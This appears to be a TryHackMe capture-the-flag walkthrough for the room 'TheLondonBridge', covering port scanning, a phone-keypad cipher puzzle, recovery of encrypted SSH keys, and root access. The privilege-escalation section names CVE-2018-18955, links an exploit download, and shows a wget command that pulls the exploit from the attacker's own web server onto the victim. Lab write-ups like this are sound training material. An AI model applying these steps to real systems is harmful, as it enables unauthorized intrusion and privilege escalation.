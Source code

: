 # thelondonbridge
THM TheLondonBridge Walkthrough

Hello guys this is my very first box in THM hope you guys will enjoy it,
There are mainly 4 stages in this box:
*) Scanning
*) Enumeration
*) Gaining access
*) Privilege escalation
**) Scan the ip using rustscan:


rustscan
We found 3 open ports

SSH
HTTP
44567(further version scan gave us a tcpwrapped service)
**) Enumeration

We enumerate further using http service which is running using nginx


Nothing

lets open the web page


Website 1.1
We can see a London bridge rhyme in the website with several pictures of the bridge from different angles

Analyzing the page correctly, there is an error in the rhyme and in the last line of it we can see that it is written beth instead of lady let's write it down


Website 1.2
further looking in the code i found something which is not normal


The source code shows two pictures where taken from a blog from 2021 but the third one which is also present on that blog was used directly from the storage with the name of pedrooaugusto.png .

After doing alot of steganalysis there is nothing much we could do about it

I searched the name pedrooaugusto with png and found a github repo that steghide and stegextract from pngs which is created by pedrooaugusto

GitHub - pedrooaugusto/steganography-png: Steganography & PNG - Hide information inside PNG images
Steganography & PNG - Hide information inside PNG images - GitHub - pedrooaugusto/steganography-png: Steganography &…
github.com


Github(stego)
I can’t find any use for it as of now so lets keep it like that

We cannot access ssh with given info tried beth and with the info we got here no luck!

Let’s look at the third open port we found, lets see what we get using nc:


The Quiz
When i typed london it is giving me some random numbers and there is a puzzle which is similar to the rhyme we found in the website

After running the cipher identification from dcode.fr I've found that the cipher is Multi-Tap Phone(SMS) cipher

decoding the above puzzle it asked for queens number so if we provide it with the above cipher value for queen elizabeth(elizabeth) maybe we could solve it


Failed :(
Even if we provide it with the number it failed

After brainstorming a little i found that by adding the value for elizabeth we can solve this puzzle took some help from the chart given below:


Numpad conversion
If we add elizabeth’s numpad values 1 by 1 we get 411140 lets try this value:


solved yay :)
After solving the puzzle it gave us a cipher text, it looks like base64 to me let’s check using cyberchef


Cyberchef
Yes we got some initial foothold, private ssh keys!

**)Gaining Access:

Now we will use ssh to gain access in the system:

While using ssh keys it asked for a encryption password


Encrypted keys :(
I converted the keys using ssh2john and tried to bruteforce it, No Luck!

Then tried using one of the two things i found from enumeration:

beth(from website)
██████████ using steganalysis
The second one worked but it was still asking for elizabeths passwords meaning that the username was not valid and then i tried using beth,Voila!


Gaining Access
The user flag was in __pycache__ folder :


flag1
**) Privilege Escalation:

After running the find / -perm -4000 2>/dev/null command i found:


Priv 1.0
And after checking the kernal version using uname -a command i found that the machine was vulnerable to CVE:2018-18955

I downloaded the required exploits in a folder in my system:

https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/47165.zip
After that i started a python web server in the folder


Python web server
And used wget in the victim machine to get the exploits

$wget — mirror http://MY_IP:PORT


wget
It will mirror(take everything) from my dbus folder to the victims home dir

After that give permissions to the exploit using chmod:


chmod
cd into directory and run ./exploit.dbus.sh


root (.)
We successfully gained the root access to the machine

The root flag is in /root/.flag.txt


root flag
Conclusion We have succesfully completed the room thelondonbridge

Hope you enjoyed it ;)

leave and comments and remarks to: sharibahmad@icloud.com
